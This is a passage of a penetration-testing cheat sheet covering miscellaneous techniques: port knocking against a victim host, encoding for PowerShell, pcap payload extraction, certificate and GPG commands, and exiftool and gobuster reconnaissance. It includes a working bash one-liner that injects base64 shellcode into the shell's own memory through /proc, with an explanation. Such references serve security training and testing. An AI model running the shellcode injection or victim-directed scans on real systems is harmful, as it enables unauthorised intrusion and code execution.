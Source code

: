 
# 9 Miscellaneous

## 9.1 Port Knocking

```sh
# port knock on ports 24->23->22 with nmap
# "-r" forces ports to be hit in order
# may want to add "--max-parallelism 1"
nmap -Pn --host-timeout 201 --max-retries 0 -r -p24,23,22 $VICTIM_IP

# doing the same thing with netcat
# NOTE: netcat can only knock on sequential ports without using a for-loop
nc -z $VICTIM_IP 22-24
```

If you're able to read files on the victim, check out their `/etc/knockd.conf`

## 9.2 Convert text to Windows UTF-16 format on Linux

```sh
# useful for encoding a powershell command in base64
echo "some text" | iconv -t UTF-16LE
```

## 9.3 Extract UDP pcap packet payload data

Using scapy:

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

def handler(packet):
    print(str(packet.payload.payload.payload))

pcap = sys.argv[1]
sniff(offline=pcap, prn=handler, filter="udp")
```

Using Tshark from the command line:

```bash
tshark -r udp.pcap -w udp.hex -Y udp -T fields -e udp.payload | tr -d '\n' | xxd -r -p
# -r = input file
# -w = output file
# -Y = wiresark display filter
# -T = set the output format. "fields" shows only the fileds you select with -e
# -e = chosen fields to display with '-T fields'
# xxd: cannot combine '-r -p' like '-rp'
```

## 9.4 Execute Shellcode from Bash

```sh
cd /proc/$$;exec 3>mem;echo "McBQaC8vc2hoL2JpbonjUFOJ4bALzYA=" | base64 -d | dd bs=1 seek=$(($((16#`cat maps | grep /bin/bash | cut -f1 -d- | head -n 1`)) + $((16#300e0))))>&3
```

Explained:

-  cd into `/proc/$$/` to write to the current PID
-  Create a file descriptor 3 and point it to mem so you an write to FD 3 in the proc’s memory.
-  Echo shellcode as base64 and decode it
-  Use `dd` to write to your memory starting at the output of seek
   -  The line reads out the maps file showing the memory map of the bash process, then it greps for `/bin/bash` to find where it is loaded in memory. It gets the address with cut and head then converts it from base16 to decimal. It adds that number to `0x300e0`
   -  `0x300e0` is the location of bash’s exit function in memory
   -  Net result: You overwrite bash’s exit function with the shellcode

## 9.5 Encryption

### 9.5.1 Create self-signed SSL/TLS certificate

```sh
# generate separate .key and .crt files
openssl req -newkey rsa:2048 -nodes -keyout mycert.key -x509 -days 365 -subj '/CN=example.com/O=Company Inc./C=UK' -out mycert.crt

# simpler method?
openssl req -new -x509 -nodes -out mycert.pem -keyout mycert.key -days 365

# convert .key/.cert to .pem file (easy way)
cat mycert.crt mycert.key > mycert.pem

# official way to convert combo of .key and .crt to .pem if needed:
openssl pkcs12 -export -in mycert.crt -inkey mycert.key -out mycert.p12
openssl pkcs12 -in mycert.p12 -nodes -out mycert.pem

# create client cert from ca.key
openssl req -x509 -new -nodes -key ca.key -sha256 -days 365 -out client.pem
openssl pkcs12 -export -in client.pem -inkey ca.key -out client.p12
```

### 9.5.2 Decrypting files with GPG

```sh
# import public and private keys into gpg
gpg --import secring.gpg pubring.gpg

# list imported pubkeys
gpg --list-keys

# list imported private keys
gpg --list-secret-keys

# decrypting file with keys already imported
gpg -d -o secret.txt secret.txt.gpg
```

## 9.6 Validating Checksums

This is how you validate a sha256 checksum for a file:

```sh
# make checksum check-file.
# Format is <hexdigest><space><filename>, in same directory as file.
echo "4987776fef98bb2a72515abc0529e90572778b1d7aeeb1939179ff1f4de1440d Nessus-10.5.0-debian10_amd64.deb" > sha256sum_nessus

# run sha256sum with '-c <check-file>' to have it validate the checksums match
sha256sum -c sha256sum_nessus
```

## 9.7 Inspecting Files with Exiftool

We can examine the metadata of files with `exiftool`, which can reveal a lot of useful information. This information may be helpful for client-side attacks.

```sh
# -a shows duplicated tags
# -u shows unknown tags
exiftool -a -u FILENAME

# TIP: use gobuster to look for files
gobuster dir -ezqrkt100 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -x doc,docx,pdf,xls,xlsx,ppt,pptx,zip -u http://VICTIM_IP
# you can also use an extension wordlist with the (capital) `-X` flag:
# -X /usr/share/seclists/Discovery/Web-Content/raft-small-extensions-lowercase.txt
```

Things to look for:

- file creation date
- last modified date
- author's name
- operating system
- application used to create the file

References:

- [List of tags recognized by `exiftool`](https://exiftool.org/TagNames/)
- [Exiftool download](https://exiftool.org) - shows list of supported files


